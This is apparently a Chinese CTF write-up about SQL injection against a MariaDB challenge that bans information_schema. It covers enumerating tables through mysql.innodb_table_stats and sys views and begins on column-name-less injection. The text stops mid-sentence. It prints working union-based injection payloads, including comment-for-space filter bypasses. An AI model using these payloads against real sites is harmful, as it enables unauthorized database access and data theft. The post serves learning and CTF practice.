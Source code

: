 ![](https://i.loli.net/2021/07/15/ukAlo1GfPZ3U8qh.png)

但是information被ban了，保存的时候就发现这题是用的MariaDB(mysql>5.5的默认存储引擎也是innodb)，可以用mysql.innodb_table_stats，
但接触到了还是顺便学习一下![](https://i.loli.net/2021/07/15/ONiQM2w31mPEUHe.png)

#### 知识点1：bypass information_schema

之前看过相关的文章，回去学习一下：[聊聊bypass information schema-安全客](https://www.anquanke.com/post/id/193512#h2-3)

1、利用innoDB引擎绕过：[对两道CTF题目的研究 - Von的博客](https://www.v0n.top/2019/11/15/对两道CTF题目的解析/)，但mysql是默认关闭InnoDB引擎的

2、mysql默认情况下可以替代information_schema的方法：（要求mysql≥5.7且有超级管理员才能访问sys）
	1) `schema_auto_increment_columns`，对**自增id**起到监控作用
	（经过上文博主实验，发现除了本库的非自增id表不出现在本表，本库以及其他库的表都出现）

​	2) `schema_table_statistics_with_buffer`**对于没有自增主键的表**,查询表的统计信息，其中还包括InnoDB缓冲池统计信息(实践发现schema_auto_increment_columns中没出现的表都出现啦)

payload：

```sql
schema_auto_increment_columns 
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_auto_increment_columns where table_schema=database()--+
```

```sql
schema_table_statistics_with_buffer 
?id=-1' union all select 1,2,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database()--+
```

这里想试一下这两种，但传payload发现一直卡着不动，maraiaDB根本没这表，决定去看一下各类wp
发现还有如下方法，不过还是回头用InnoDB了

![](https://i.loli.net/2021/07/15/375XByie4PrKqHO.png)

```
回头去使用innodb，而且我发现必须利用子查询才能返回，，不然就会卡住（不懂为啥）
1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'
```

![](https://i.loli.net/2021/07/15/aqPgDnAIUzCk4c8.png)

得到表名FLAG_TABLE,但是mysql.innodb_table_stats只包含数据库名和表名，因此要利用到无列名注入了（说起来国赛唯一做的那题也是无列名注入呢--）

```
1'/**/union/**/select/**/1,(select/**/group_concat(column_name)/**/from/**/mysql.innodb_table_stats/**/where/**/table_name=FLAG_TABLE),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22/**/'
```

#### 知识点2：无列名注入

**基础定义**：适用于知道表名而无法查询列的情况，原理类似于为不知道的列取别名，在命名别名同时进行数据查询（因此要求查询字段数=数据表中的列的数目，也是联合查询的特性）

**一些特点**：可以利用反引号**`**包裹数字来对应列：如
